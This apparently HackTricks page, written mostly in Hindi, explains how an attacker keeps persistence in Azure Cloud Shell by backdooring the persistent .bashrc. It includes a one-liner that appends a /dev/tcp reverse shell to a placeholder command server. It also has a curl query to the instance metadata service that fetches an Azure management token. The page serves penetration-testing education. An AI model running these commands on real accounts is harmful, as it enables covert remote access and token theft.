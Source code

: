 # Az - Cloud Shell Persistence

{{#include ../../../banners/hacktricks-training.md}}

## Cloud Shell Persistence

Azure Cloud Shell कमांड-लाइन एक्सेस प्रदान करता है ताकि Azure संसाधनों को प्रबंधित किया जा सके, जिसमें स्थायी भंडारण और स्वचालित प्रमाणीकरण शामिल है। हमलावर इसका लाभ उठाकर स्थायी होम डायरेक्टरी में बैकडोर रख सकते हैं:

* **Persistent Storage**: Azure Cloud Shell की होम डायरेक्टरी एक Azure फ़ाइल शेयर पर माउंट की गई है और सत्र समाप्त होने के बाद भी बरकरार रहती है।
* **Startup Scripts**: .bashrc जैसे फ़ाइलें प्रत्येक सत्र की शुरुआत में स्वचालित रूप से निष्पादित होती हैं, जिससे क्लाउड शेल शुरू होने पर स्थायी निष्पादन की अनुमति मिलती है।

Example backdoor in .bashrc:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/$CCSERVER/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

यह बैकडोर उपयोगकर्ता द्वारा क्लाउड शेल समाप्त होने के 5 मिनट बाद भी कमांड निष्पादित कर सकता है।

इसके अतिरिक्त, उदाहरण विवरण और टोकन के लिए Azure की मेटाडेटा सेवा को क्वेरी करें:
{% code overflow="wrap" %}
```bash
curl -H "Metadata:true" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/" -s
```
{% endcode %}


{{#include ../../../banners/hacktricks-training.md}}
